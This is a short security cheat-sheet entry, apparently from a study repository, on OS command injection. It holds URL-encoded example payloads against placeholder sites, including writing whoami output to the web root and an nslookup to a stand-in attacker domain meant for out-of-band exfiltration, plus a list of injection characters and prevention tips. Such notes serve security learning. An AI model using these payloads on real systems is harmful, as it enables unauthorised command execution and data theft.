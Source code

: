 # Command injection :syringe:
Allow an attacker to execute OS commands on the server.  Occurs when a user's input is passed to a shell command without sufficient sanitization.

Example:
```sh
# Passing `echo hello` to the shell
# If this appears in the response, the command injection is successful
https://insecure-website.com/stockStatus?productID=%26%20echo%20hello%20%26

# Blind injection - using timing to determine if the command was successful
# `& ping -c 10 127.0.0.1 &` will take 10 seconds to complete
https://insecure-website.com/stockStatus?productID=%26%20ping%20-c%2010%20127.0.0.1%20%26

# Blind injection - writing to a file in the web root
# `& whoami > /var/www/static/whoami.txt &` and then fetch with https://vulnerable-website.com/whoami.txt
https://vulnerable-website.com/stockStatus?productID=%26%20whoami%20%3E%20%2Fvar%2Fwww%2Fstatic%2Fwhoami.txt%20%26

# Blind injection - DNS query to a malicious DNS server
# `& nslookup kgji2ohoyw.web-attacker.com &` and then check query logs.  DNS can also be used to exfiltrate data.
https://vulnerable-website.com/stockStatus?productID=%26%20nslookup%20kgji2ohoyw.web-attacker.com%20%26

```

Injected commands usually end with `&` to prevent subsequent commands from stopping the injected command from running.

## Injection characters
The following can all be uesd to inject commands:
```sh
&
&&
|
||
;
Newline (0x0a or \n)

# Unix hosts
`
$(
```

## Prevent
1. Do not allow user input to be used in any shell commands.
1. If there's no other option, validate user input against a safelist of allowed characters or commands.

## Tools
- [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy)
- [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater)
- [BApp Store > Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

## References
- https://portswigger.net/web-security/os-command-injection